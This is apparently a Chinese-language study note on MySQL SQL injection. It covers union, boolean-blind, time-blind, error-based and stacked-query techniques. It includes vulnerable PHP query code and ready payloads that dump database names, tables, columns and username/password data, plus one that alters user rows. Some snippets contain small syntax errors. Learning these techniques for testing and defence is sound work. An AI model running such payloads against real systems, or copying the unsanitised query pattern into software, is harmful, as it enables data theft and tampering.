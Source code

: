 # SQL注入

## 何为SQL注入？

网站开发者未对用户输入的数据进行合法性校验，攻击者通过构造恶意参数来实现对数据库的任意操作

## 常见的SQL注入类型有哪几种?

常见的SQL注入主要分为以下五种类型？

1. 联合查询注入(UNION query SQL injection)
2. 基于Boolean的盲注(Boolean-based blind SQL injection)
3. 基于时间的盲注(Time-based blind SQL injection)
4. 基于报错的注入(Error-based SQL injection)
5. 堆叠注入(Stacked queries SQL injection)

## 重要知识点

### 重要函数

| 序号 | 函数                               | 说明                          |
| ---- | ---------------------------------- | ----------------------------- |
| 1    | select @@version;select version(); | 查看数据库版本信息            |
| 2    | show databases;                    | 查看当前所有数据库            |
| 3    | show tables;                       | 查看当前选中数据的所有表信息  |
| 4    | select database();                 | 查看当前选择的数据库          |
| 5    | select user();                     | 查看当前登录的用户            |
| 6    | concat(x1, x2)                     | 连接多个分组或字符串          |
| 7    | group_concat(x)                    | 将同一分组x的值以逗号间隔连接 |
| 8    | Floor(x)                           | 返回最大且不大于x的整数值     |

### 重要库、表

| 序号 | 库、表                      | 说明                                   |
| ---- | --------------------------- | -------------------------------------- |
| 1    | information_schema          | MySql数据库内置表之一,存有数据库元数据 |
| 2    | performance_schema          | MySql数据库内置表之一，用于性能分析    |
| 3    | information_schema.schemata |                                        |



## 联合注入查询(Union query SQL injection)

使用union构造恶意语句，将需要的信息与当前表信息联合回显到前端界面

联合注入查询主要分为两类

1. 数字型注入
2. 字符型注入

数字型注入

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

字符型注入

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

1. 判断依据

   1. 数字型: id = 1 + 2
   2. 字符型: id = 1', id = 1"

2. 整体利用流程

   1. 字段数判断

      ```sql
      id = 1 order by 2
      ```

   2. 回显点判断

      ```sql
      id = -1 union select 1,2,3
      ```

   3. 暴库

      ```sql
      id = -1' union select 1,2,schema_name from information_schema.schemata where schema_name = database() --+
      ```

   4. 暴表

      ```sql
      id = -1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database() --+
      ```

   5. 暴字段名

      ```sql
      id = -1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name = '表名' -- +
      ```

   6. 暴数据

      ```sql
      id = 1' union select 1,2,group_concat(username, passwd) from '表名' --+
      ```

特征

1. union字段的使用
2. 存在回显点

## 基于Boolean的盲注(Boolean-based blind SQL injection)

1. 没有具体的错误回显信息

2. 页面根据参数是否合法，会返回不同的页面

3. 判断依据

   ```sql
   id = 1' and substr(version(), 1, 1) > 5 --+
   ```

4. 利用方法

   ```sql
   id = 1' and ord(substr((select database()), 1, 1)) > 95 --+
   ```

## 基于Time的盲注(Time-based blind SQL injection)

1. 没有具体的错误回显信息

2. 只能依靠物理感观来判断是否存在注入点

3. 判断依据

   ```sql
   id = 1 and sleep(2) --+
   ```

4. 利用方法

   ```sql
   id = 1 and if(ord(substr((select database()), 1, 1)) > 95, 1, sleep(2))--+
   ```

特殊说明: select sleep(2);值为0

## 错误型注入(Error-based SQL injection)

1. 存在错误回显
2. 往往是利用的是MySQL逻辑漏洞

MySQL错误注入类型主要有:

1. BigInt等数据类型溢出
2. Xpath语法错误
3. count() + rand() + group_by()导致的重复
4. 空间数据类型函数错误

MySQL报错利用的一些函数:

1. floor()
2. extractvalue()最多32字符
3. updatexml()
4. exp()

```sql
Rand([N])
Returns a random floating-point value v in the range 0 <= v < 1.0.
Rand()给定了N之后为伪随机数
SELECT rand(0) FROM information_schema.tables LIMIT 0, 10;
SELECT Count(*), Floor(Rand(0) * 2)x FROM information_schema.tables LIMIT 0, 10 GROUP_BY x;

ExtractValue(xml_frag, xpath_expr)		使用XPath表示法从XML字符串中提取值(最多32字符)
SELECT ExtractValue('<a><b>value</b></a>', '/a/b');
ExtractValue(1, @@version)
ExtractValue(1, Concat(0x7e, (SELECT @@version))) 0x7d 0x7f ... concat无法处理的字符

UpdateXML(xml_target, xpath_expr, new_xml) 返回替代的XML片段
SELECT UpdateXML('<a><b></a></a>', '/a/b', 'c')
UpdateXML(1, Concat(0x7e, (SELECT @@version), 1))
UpdateXML会将无法理解的xpath_expr以报错的形式显示出来
@@version 8.0.021 8.0被当作数字， .21无法理解，爆出.21错误

Concat()连接多个字符串
Concat(0x7e, @@version)让其一开始无法正常解析
UpdateXML(1, Concat(0x7e, (SELECT schema_name FROM information_schema.schemata WHERE schema_name = DataBase())), 1)

EXP(~(SELECT * FROM (SELECT DataBase())x))		以e为底的指数函数
rand(0) * 2		固定值011011
SELECT * FROM (SELECT Count(*), Concat(table_name, Floor(Rand(0)*2))x FROM information_schema.tables GROUP_BY x)a;
```

[exp]('https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/')

## 堆叠注入(Stacked queries SQL injection)

与union注入不同的是，堆叠注入一次性可注入多条语句，但堆叠注入无法看到语句执行后的回显

不足点：

不是每一个环境都能使用，数据库API版本、权限问题都会影响堆叠注入。

存在的问题：

1. 通常只返回一个结果，跟随语句产生的错误或结果只能被忽略，前端无法看到这些结果。
2. 需要知道数据库的一些信息。

```sql
id=1';update users set username = '李四' where username = '张三';--+
```

